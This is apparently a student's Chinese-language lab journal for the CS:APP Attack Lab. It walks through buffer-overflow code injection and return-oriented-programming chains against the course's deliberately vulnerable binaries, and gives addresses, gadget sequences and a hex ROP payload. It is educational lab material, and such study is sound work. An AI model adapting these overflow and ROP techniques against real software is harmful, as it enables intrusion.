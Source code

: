 # attack lab 实验记录

## 需要准备的前置内容

其实主要就是看那个attacklab.pdf。attacklab分为两个部分，第一个部分攻击ctarget（前三题），第二部分攻击rtarget（后两题），ctarget是进行Code Injection, rtarget是进行Return Oriented Programming（面向方向）

## Ctarget: level 1

目标是让getbuf返回后执行touch1函数

这题很简单，利用的就是getbuf函数返回时（ret指令执行后）会跳转到原函数下一条指令，而跳转地址就在上一个函数的stack frame的最后，我们只需要用一些文字把40个字节的缓冲区填满，然后用touch1的指令地址覆盖原函数test下一条指令的地址。

所以我的答案就是97 * 40 (97应该是'a'吧好像)然后加上c0 17 40, 用objdump -d 或者(gdb) layout asm可以查到我文件的touch1的地址是0x4017c0，很快通过测试。

## Ctarget: level 2



![c3](./pic/c3.png)

一开始很难对准目标，在进入缓冲区前$rsp = 0x5561dca0, 

需要注意的是，在ret返回后跳转的地址里，读取的是8个字节（即整个rip在之前其实都已经push进去了，一开始没把握好0xa8,以为c3(ret)可以直接放在a5处，导致一直没法执行。

![pass2](./pic/pass2.png)

之后凑一凑答案就出来了。bf xx是mov $xx, %edi,就是伪造参数，之后c3是ret，会返回到文件里第三行那个0x4017ec,就是touch2的地址。

 ## Ctarget: level 3

​	要求往touch3里输入一个参数，参数是一个字符串，内容是"${cookie}"，把cookie的值换成字符串放进去，且比较的数据存放的地方是经过随机处理过的。

这道题的解决思路就是在已知位置存储cookie的字符串，然后执行`lea (cookie), rdi`传参，再ret到<touch3>，cookie的位置就在stack上，我们可以控制(cookie) = %rsp + num

答案如下图，后边等号解释得比较详细了。
把数据存在c3后面，0x11+%rsp就可以到达这个点。（什么？应该是+0x19？在getbuf()里ret到b0 dc 61 55再跳转到两行以后，这时候rsp已经在<touch3>那一行了，所以就是0x11。

![pass3](./pic/pass3.png)

至于如何知道lea语句的机器码的，手册里其实有讲。

开一个test.s文件，里边写上lea语句然后

```assembly
gcc -c test.s
objdump -d test.o
```

就能看到单个语句的机器码了。

## Rtarget: level 2

在Part II，增加了两个保护机制，一个是栈随机化，注入在栈里的可执行代码位置是无法完全确定的，所以难以ret到stack里执行；另一个保护机制是设置stack区域为non executable,即使注入成功了也无法在其中执行代码。剩下两道题采用的是return oriented programming,用的方法是利用原先文件里就存在的代码，这些代码地址是确定的，然后用ret（即0xc3）前有用的代码拼凑起来成为攻击代码。

phase 4 是要用ROP复刻phase 2的操作：把cookie的值放到%rdi里作为参数然后跳转到<touch2>

首先对照着机器码的表可以看到movq都是48 89开头，在反汇编的文件里一顿搜索就可以看出badget farm里有哪些有可能有用的，首先看到的是48 89 c7 c3（`mov %rax, %rdi` +  `ret`)，那我只要再找到一个把cookie数据放到%rax的操作就ok了。

显然，cookie的数据应该是注入在stack overflow里的，一开始想的是`mov %rsp, %rax` + `pop xxx`这样的，但是找不到相应的机器码，后面想到了可以直接用`pop %rax`就可以了，然后也确实有这个语句，所以就完美解决了，一次通过。

组织起来，在stack overflow的区域：

```
--这里是栈顶--
to {pop %rax} 执行该代码时rsp已经指向cookie了,pop后rsp指向第三行，能顺利地跳转到rax->rdi的指令
cookie
to {mov %rax, %rdi}
to <touch2>
--上面是开始溢出的地方--
```

## Rtarget: level 3

目标是复刻phase 3,非常坑，有一个画风奇特的badget,名字叫<add_xy>，作用是%rdi+%rsi-> %rax,可以直接用，而不是截取一半，下面的表从下往上分析，用vim的/查找，可以拉出一串传递链出来，应该不太难理解。

除此之外在指南里还附带了两字节没卵用机器码，和0x90是等效的，也会用的上。

```
--栈顶--
mov %rsp, %rax
mov %rax, %rdi
pop %rax
offset
mov %eax, %edx
mov %edx, %ecx
mov %ecx, %esi
add %rdi, %rsi -> %rax
mov %rax, %rdi
to <touch3>
cookie
```

```
06 1a 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
ab 19 40 00 00 00 00 00
48 00 00 00 00 00 00 00
dd 19 40 00 00 00 00 00
34 1a 40 00 00 00 00 00
27 1a 40 00 00 00 00 00
d6 19 40 00 00 00 00 00
a2 19 40 00 00 00 00 00
fa 18 40 00 00 00 00 00
35 39 62 39 39 37 66 61
00 
```

## Fin

一共花了一天半时间做这个，大概在7h左右吧应该，其实前四个难度都不是很大，最后一个是真的挺难的，这个实验非常好玩，而且学到的东西挺多的，自己一边看指南一边执行自己注入的exploit真的很爽，这个pdf好像写得很通俗，看的时候非常流畅，而且提示还挺多的，不乏为有效的操作指北。